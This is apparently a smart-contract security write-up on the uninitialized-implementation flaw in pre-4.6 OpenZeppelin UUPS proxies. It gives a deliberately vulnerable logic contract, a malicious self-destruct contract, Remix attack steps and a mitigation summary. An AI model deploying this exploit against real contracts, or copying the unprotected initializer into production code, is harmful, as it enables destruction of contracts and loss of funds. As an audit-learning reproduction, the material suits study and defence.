





## The vuluerabiliry of UUPS

### 0x00 The implement contract without initialize

### Concept

Before the old version of UUPS upgrade mode (v4.6), `Initializable.sol` did not have a `_disableInitializers()` function. This function is generally used in the constructor of the logic contract to initialize the logic contract.

If a logic contract's `initialize()` function has no access control and can be called by anyone, for example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-upgradeable@v4.2.0/contracts/proxy/utils/UUPSUpgradeable.sol";

contract Logic_1 is OwnableUpgradeable, UUPSUpgradeable {
    uint256 public value;

    function initialize() external {
        __Ownable_init();
    }

    function _authorizeUpgrade(
        address newImplementation
    ) internal override onlyOwner {}

    function setValue(uint256 newValue) external {
        value = newValue;
    }

}
```

Then there will be a serious security vulnerability here. Hackers can call the `initialize()` function and become the `owner` of the logic contract, thereby executing the `upgradeToAndCall(address,bytes)` function in the logic contract and calling the self-destruct function in the malicious contract through `delegatecall newImplement`, causing the logic contract to self-destruct.

*The impact is: the proxy contract will not be able to call the functions of the logic contract, and the contract cannot be upgraded.*

### Reproduction

> **The reason for not choosing Foundry is that due to the version upgrade, the bytecode `opcode:selfdestruct` has been deprecated, and the function has been modified to not have the function of destroying the contract code. Therefore, in order to reproduce this vulnerability, it can only be done through `Remix` and use a lower version of the compiler.**

**Test environment**

- IDE: Remix
- evm-version: shanghai
- solc-version: 0.8.20
- libraries: openzepplin@v4.2.0
- codeLink: [link](https://github.com/LBiyou/Learning-from-Audit-Reports/tree/main/Vulnerability_Reproduction/src/Vulnerability_upgrade/uups/ImplementWithoutInitialize)
- Deployer: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
- Hacker:  0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2

#### **Case 1**

> The hacker becomes the owner of the logic contract and delegatecall the self-destruction function of the malicious contract when executing upgradeToAndCall().

```solidity
// Malicious contract
contract MaliceContract {
    address public constant owner = (
        0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
    );

    function selfKill() external {
        selfdestruct(payable(owner));
    }

    function upgradeTo(address) external {
        assembly {
            sstore(
                0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc,
                0
            )
        }
    }
}
```

**Steps**

- step1：The `deployer` deploys the proxy contract, logic contract, and initializes the proxy contract.



- step2 : Instantiate the proxy contract through `At Address` and test its functionality.(no problem)



- step3: Hackers perform malicious actions.
    - Deploy malicious contracts.
    - Call the `initialize()` function and become the `owner` of the logic contract.
    - Call the `upgradeToAndCall()` function and pass in the address of the malicious contract and the selector of the self-destruct function.

​		

- step4: Return to the proxy contract to call the logic contract function and upgrade the contract.





#### Case 2

> If there is a self-destruct function in the logic contract, and this function can only be called by the `owner`, then the hacker can directly become the `owner` by initializing the logic contract and destroy the logic contract.

### Summarize

After version 4.6, the UUPS proxy mode has changed a lot, limiting the upgrade function of the logic contract to be called only by the proxy contract, which avoids the risk of `case 1`. Of course, the safest way is to use a higher version of `openzepplin` and call the `_disableInitializers()` function in the constructor of the logic contract.

> Tips: As Ethereum continues to upgrade, the function of the bytecode `selfdestruct` has been continuously weakened. Now it no longer has the function of deleting the contract code, and can only transfer the `ETH` in the contract, so even if there is `selfdestruct`, it will not be as terrible as before. But everything still needs to be done with caution, and it is better to be safe than sorry.